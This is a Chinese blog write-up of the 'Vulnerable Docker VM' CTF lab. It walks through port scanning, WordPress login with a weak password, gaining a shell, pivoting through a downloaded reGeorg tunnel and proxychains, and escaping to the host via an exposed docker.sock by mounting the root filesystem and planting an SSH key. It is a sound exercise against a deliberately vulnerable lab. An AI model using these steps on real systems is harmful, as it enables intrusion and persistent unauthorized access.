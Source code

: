 ```yaml
---
id: 775
layout: post
title: 'Vulnerable Docker VM WriteUp'
date: 2017-09-27 04:46:07
author: virusdefender
tags: 安全 CTF
---
```


半夜发烧睡不着，看到一个有意思的类CTF的题目，就看了下。

https://www.notsosecure.com/vulnerable-docker-vm/ 可以下载一个虚拟机镜像，导入后开机会提示虚拟机的IP。先使用 nmap 扫描一下

```
Nmap scan report for 192.168.30.171
Host is up (0.00057s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
8000/tcp open  http-alt
```

开启了 ssh，但是没有密码无法登陆，8000 端口是一个 WordPress，有一些文章和 robots.txt ，大致翻了下，没有什么有用的信息。

用 wpscan 扫了一下，发现有个注入，就是我上一篇文章提到的，并没什么用，没有安装插件，但是有一个叫 bob 的用户。

```
Identified the following 1 user/s:
+----+-------+-----------------+
| Id | Login | Name            |
+----+-------+-----------------+
| 1  | bob   | bob – NotSoEasy |
+----+-------+-----------------+
```

然后看了眼 hint，用户的密码是 `Welcome1`（其实应该用字典跑的），就这样进入了后台，在草稿箱中发现了第一个 flag。

![](https://storage.virusdefender.net/blog/images/775/1.jpg)

如果可以进入 wp 的后台，那么拿 shell 就很简单了，使用在线编辑功能就可以。

![](https://storage.virusdefender.net/blog/images/775/2.jpg)

连上 shell 后收集了下面的一些信息

 - 数据库

```
define('DB_NAME', 'wordpress');
define('DB_USER', 'wordpress');
define('DB_PASSWORD', 'WordPressISBest');
define('DB_HOST', 'db:3306');
```

 - 系统是 `Linux 8f4bca8ef241 3.13.0-128-generic #177-Ubuntu SMP Tue Aug 8 11:40:23 UTC 2017 x86_64 GNU/Linux`，用户是 `www-data`，这么新的系统直接就可以放弃提权了，否则 Dirty COW 之类的洞还是超级好用的，可以参考 [Tunnel Manager - From RCE to Docker Escape](https://ricterz.me/posts/Tunnel%20Manager%20-%20From%20RCE%20to%20Docker%20Escape)

 ![](https://storage.virusdefender.net/blog/images/775/3.jpg)


 - `ip addr`

```
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default 
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
5: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:12:00:02 brd ff:ff:ff:ff:ff:ff
    inet 172.18.0.2/16 scope global eth0
       valid_lft forever preferred_lft forever
```

![](https://storage.virusdefender.net/blog/images/775/4.jpg)

想起题目是`Vulnerable Docker VM`，猜想应该就是 `docker.sock` 或者 HTTP API 未授权访问之类的问题，不过翻了下没找到什么。

但是看机器的 IP，感觉这个虚拟机里面应该还有个 docker network 的内网，简单的 ping 了下，发现至少是存在 `172.18.0.1-4` 的，这时候需要做一下内网穿透，这样方便在我的电脑上操作，否则 shell 里面缺少很多工具和依赖，比较麻烦。

我使用的是 [reGeorg](https://github.com/sensepost/reGeorg)

```
curl -o tunnel.php https://raw.githubusercontent.com/sensepost/reGeorg/master/tunnel.nosocket.php
```

浏览器访问了一下，显示 `Georg says, 'All seems fine'`。

本地电脑上运行 `python reGeorgSocksProxy.py -u http://192.168.30.171:8000/tunnel.php`

```
[INFO   ]  Log Level set to [INFO]
[INFO   ]  Starting socks server [127.0.0.1:8888], tunnel at [http://192.168.30.171:8000/tunnel.php]
[INFO   ]  Checking if Georg is ready
[INFO   ]  Georg says, 'All seems fine'
```

因为 reGeorg 提供的是 socks5 代理，所以需要本地使用 proxychains，具体配置不多说了。

`proxychains mysql -u wordpress -pWordPressISBest -h 172.18.0.4` 连接数据库，但是并没有找到什么 flag，然后继续扫内网，还是 nmap 那一堆命令加上 proxychains 前缀就好。然后发现一个 IP 有个奇怪的端口

```
Nmap scan report for 172.18.0.3
Host is up (0.0062s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
8022/tcp open  oa-system
```

curl 看了下，貌似是一个网页，然后在设置了浏览器的 socks5 代理，就看到了，原来是一个网页版 ssh，而且这里面终于有了 `docker.sock`。

![](https://storage.virusdefender.net/blog/images/775/7.jpg)

接下来就是老套路了，可以参考 [Docker学习与remote API未授权访问分析和利用](http://www.silence.com.cn/docker%E5%AD%A6%E4%B9%A0%E4%B8%8Eremote-api%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E5%88%86%E6%9E%90%E5%92%8C%E5%88%A9%E7%94%A8/920)

而我是直接在里面安装了一个docker，这样就可以操作主机上的 docker 了。

![](https://storage.virusdefender.net/blog/images/775/8.jpg)

然后使用 volume 挂载主机上的所有文件到一个目录

```
docker run -it --rm -v /:/vol wordpress /bin/bash
```

这样就可以看到 flag3了

![](https://storage.virusdefender.net/blog/images/775/9.jpg)

然后在 `/vol/root/.ssh` 下面又把自己的公钥写了进去，这样就可以直接 ssh 到虚拟机了。

![](https://storage.virusdefender.net/blog/images/775/10.jpg)

至于 flag2 去哪了，官方的说法是他们忘了放了，233333

